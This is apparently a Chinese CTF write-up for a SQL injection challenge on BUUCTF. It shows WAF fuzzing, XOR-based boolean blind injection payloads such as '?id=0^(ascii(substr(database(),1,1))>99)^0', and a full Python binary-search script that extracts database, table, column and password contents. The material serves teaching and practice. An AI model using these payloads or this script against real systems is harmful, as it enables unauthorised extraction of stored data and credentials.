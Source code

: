 知识点：

1.sql注入

2. 异或（xor)注入，过滤and,or

3. 盲注



fuzz测试：

![](images/894A939E68504EB5ADD80D051B0D61CBfinalsql1.png)

1. 发现and，union，空格都被过滤

没有报错界面，发现返回结果只有三种，查询回显的数据，报错ERROR!!!和被waf拦截的界面

此时可以想到布尔盲注

构造payload:

```python
?id=0^1^0
```



![](images/A0D99A12EA394D59B096BFCC1FCBEEAFfinalsql2.png)



2. 发现返回id=1时的界面，此时可以考虑xor注入

payload:

```python
?id=0^(ascii(substr((database()),1,1))>99)^0
```



![](images/4641DF6F0FC54D299F14E3ED01E91AEBfinalsql3.png)

说明此时数据库名第一位ascii为103，为g。和前面的sql注入一样



3. 大佬的二分查找发exp:

```python
# 然后是二分法，二分法要快很多：
# -*- coding: UTF-8 -*-
import re
import requests
import string

url = "http://44102d97-55a4-4aa9-b01b-c2f73d821edb.node3.buuoj.cn/search.php"
flag = ''

# flag{07as0d5c-0ba1-4cf7-93ce-acf19023e7e7}


def payload(i, j):
    # sql = "1^(ord(substr((select(group_concat(schema_name))from(information_schema.schemata)),%d,1))>%d)^1"%(i,j)                                #数据库名字
    # sql = "1^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema)='geek'),%d,1))>%d)^1"%(i,j)           #表名
    # sql = "1^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='F1naI1y')),%d,1))>%d)^1"%(i,j)        #列名
    sql = "1^(ord(substr((select(group_concat(password))from(F1naI1y)),%d,1))>%d)^1" % (i, j)
    data = {"id": sql}
    r = requests.get(url, params=data)
    # print (r.url)
    if "Click" in r.text:
        res = 1
    else:
        res = 0

    return res


def exp():
    global flag
    for i in range(1, 10000):
        print(i, ':')
        low = 31
        high = 127
        while low <= high:
            mid = (low + high) // 2
            res = payload(i, mid)
            if res:
                low = mid + 1
            else:
                high = mid - 1
        f = int((low + high + 1)) // 2
        if (f == 127 or f == 31):
            break
        # print (f)
        flag += chr(f)
        print(flag)


exp()
print('flag=', flag)
```

